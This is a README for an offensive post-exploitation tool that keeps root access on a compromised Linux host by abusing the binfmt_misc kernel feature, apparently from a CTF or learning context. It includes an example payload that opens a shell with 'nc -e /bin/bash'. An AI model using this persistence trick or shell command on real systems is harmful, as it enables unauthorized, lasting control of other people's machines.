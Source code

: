 <div align=center>
<img src=./29FE64AD-A0EF-4A23-8FD3-D646071A74C8.png>
<pre><code><strong>Privileged persistence 
<br>without using noisy and detectable SUID 
<br>using <i>binfmt</i> Kernel feature instead</strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, **root shell** is obtained and process to obtain it again will be outputted 


##### More granular

You can choose which SUID will trigger your payload (`-c`). And, obviously, you can also custom the payload (`--payload`).
An example:
```shell
./shuid -c --command "nc 127.0.0.2 -e /bin/bash"
```


## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>
